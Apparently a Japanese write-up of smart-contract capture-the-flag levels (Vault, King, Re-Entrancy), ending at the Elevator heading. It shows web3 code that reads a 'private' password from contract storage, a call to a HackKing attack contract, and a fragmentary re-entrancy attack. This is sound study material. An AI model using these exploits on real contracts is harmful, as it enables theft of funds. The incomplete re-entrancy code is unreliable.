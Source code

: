 # 8. Vault

password など、公開したくない情報はいれることができない
伝搬し格納したデータを参照すれば private で宣言している変数内も見えてしまう。

web3 の getStorageAt を使うと内容がわかってしまう。

テキトーなプロジェクトを作って web3 を動かしてみた

```js
web3 = new Web3(
  new Web3.providers.HttpProvider(
    "https://ropsten.infura.io/v3/プロジェクトID",
  ),
);
```

```js
this.web3.eth
  .getStorageAt("0xf72902f76ed2421949714333816759a55afb10cd", 1)
  .then((hexPassword) => {
    console.log(this.web3.utils.hexToAscii(hexPassword));
  });
```

# 9. King

例外が発生すると king が変更できなくなる。
意図的に例外が発生するようにする

送信するコントラクト先が payable かどうかのチェックが行われないといけない

```js
// メソッドの引数に{value: ***}でpayableな関数にイーサを送金できる
HackKing.deployed().then((instance) => instance.Attack({ value: 100000 }));
```

# 10. Re-Entrancy

外部の payable なメソッドにイーサを送る

```js
abstract contract Reentrance{
    function donate(address _to)public payable{}
}
contract ReEntrancyAttack {
    Reentrance reentrance = Reentrance(AttackAddress);
    reentrance.donate{value:AttackAmount}(address(this));
}
```

# 11. Elevator
